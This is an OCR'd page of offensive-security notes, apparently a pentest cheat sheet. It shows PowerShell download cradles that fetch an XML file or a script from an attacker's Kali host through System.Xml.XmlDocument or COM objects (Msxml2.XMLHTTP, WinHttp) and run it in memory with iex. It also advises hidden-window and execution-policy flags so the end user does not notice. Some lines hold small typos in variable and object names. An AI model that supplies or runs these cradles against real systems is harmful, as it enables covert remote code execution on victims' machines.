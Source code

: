 #### System.Xml.XmlDocument
Allow us to execute a powershell command or any system command (in memory)
```powershell

Create a XML file:
<?xml version="1.0"?>
<command>
	<a>
		<execute>Get-Process</execute>
	</a>
</command>

```

once our xml file is hosted
```powershell

$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://<kali ip>/file.xml")
iex $xmldoc.command.a.execute

```

#### COM Objects
some available
```powershell

Msxml2.XMLHTTP
Microsoft.XMLHTTP
InternetExplorer.Application
Excel.Application
Word.Application
MsXml2.ServerXmlHttp
WinHttp.WinHttpRequest.5.1 (Not Proxy Aware)
```

> it works the same but the New-Object, with **-ComObject** parameter

```powershell

$downloader = New-Object -ComObject Msxml12.XMLHTTP
$downloader.open("GET", "http://<kali ip>/script.ps1", $false)
$download.send()
iex $downloader.responseText
```

- We can do the same with WinHttp.WinHttpRequest.5.1 object as well (in the first line)

```powershell

$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
```

> Tip [+]
We can use all these commands as one liners, by using a semicolon (;) to break ip the commands
We can save as script too and execute with **powershell.exe .\script.ps1** 
Make sure to include -ExecutionPolicy (-ep) and -Window Hidden (-W h)
This will ensure we can run our scripts and that the powershell window stays hidden from the end-user
